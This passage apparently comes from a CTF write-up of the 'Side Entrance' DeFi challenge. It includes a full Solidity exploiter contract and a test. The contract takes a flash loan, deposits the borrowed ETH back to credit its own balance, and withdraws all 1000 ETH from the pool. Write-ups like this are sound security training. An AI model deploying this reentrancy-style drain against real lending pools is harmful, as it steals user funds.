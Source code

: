 The beauty of this exploit is that we're essentially using the pool's own ETH to credit ourselves in its accounting system. We never actually bring any new ETH to the table (besides gas costs), yet we walk away with all 1000 ETH.

## Exploit Implementation

Here's a step-by-step implementation of the exploit:

```solidity
contract SideEntranceExploiter {
    SideEntranceLenderPool private immutable pool;

    constructor(address _pool) {
        pool = SideEntranceLenderPool(_pool);
    }

    // Main attack function
    function attack() external {
        // 1. Request a flash loan for all ETH in the pool
        pool.flashLoan(address(pool).balance);
    }

    // This function is called by the pool during the flash loan execution
    function execute() external payable {
        // 2. Instead of directly returning the ETH, deposit it back
        // This satisfies the flash loan check while crediting our balance
        pool.deposit{value: msg.value}();
    }

    // After the attack, withdraw and send to recovery address
    function withdrawToRecovery(address recovery) external {
        // 3. Withdraw all ETH based on our credited balance
        pool.withdraw();

        // 4. Send the drained ETH to the recovery address
        payable(recovery).transfer(address(this).balance);
    }

    // Required to receive ETH
    receive() external payable {}
}
```

The attack flow in a test scenario would look like this:

```solidity
function test_sideEntrance() public checkSolvedByPlayer {
    // Create exploiter contract
    SideEntranceExploiter exploiter = new SideEntranceExploiter(address(pool));

    // Execute the attack
    exploiter.attack();

    // Withdraw the ETH to the recovery address
    exploiter.withdrawToRecovery(recovery);
}
```
